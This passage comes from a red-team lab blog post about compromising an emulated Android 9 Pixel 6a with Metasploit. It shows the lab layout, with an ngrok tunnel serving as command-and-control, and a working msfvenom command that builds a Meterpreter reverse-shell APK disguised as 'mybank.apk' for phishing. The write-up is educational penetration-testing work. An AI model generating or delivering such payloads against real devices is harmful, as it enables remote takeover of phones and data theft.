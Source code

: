 ```yaml
---
layout: post
title: "Android Exploitation Lab: Compromising a Pixel 6a with Meterpreter"
date: 2025-10-04 21:41:58 +0200
categories: blogPost
tags: metasploit msfvenom android penetration-testing red-team
author: bl4ckarch
---
```


## Executive Summary

In this Red Team lab exercise, we successfully demonstrated the complete attack chain of compromising an Android device using a malicious APK delivered through a phishing scenario. This educational demonstration was conducted in a controlled environment using Genymotion's Google Pixel 6a emulator running Android 9.

**Target Environment:**
- Device: Google Pixel 6a (Genymotion Emulator)
- OS: Android 9
- Network: Isolated lab environment
- Exposure: ngrok tunnel for remote C2

---

## Lab Architecture

```
┌─────────────────┐         ┌──────────────────┐
│  exegol Linux   │         │  Genymotion      │
│  (Attacker)     │◄───────►│  Pixel 6a        │
│  10.0.3.2       │  NAT    │  Android 9       │
└─────────────────┘         └──────────────────┘
        │
        │ ngrok tunnel
        ▼
┌─────────────────┐
│  0.tcp.eu.      │
│  ngrok.io:13799 │
└─────────────────┘
```

---

## Phase 1: Payload Generation

### Initial Payload Creation (Local Network)

First, we generated a basic Meterpreter reverse TCP payload for local testing:

```bash
msfvenom -p android/meterpreter/reverse_tcp \
  LHOST=10.0.3.2 \
  LPORT=4444 \
  -o mybank.apk
```

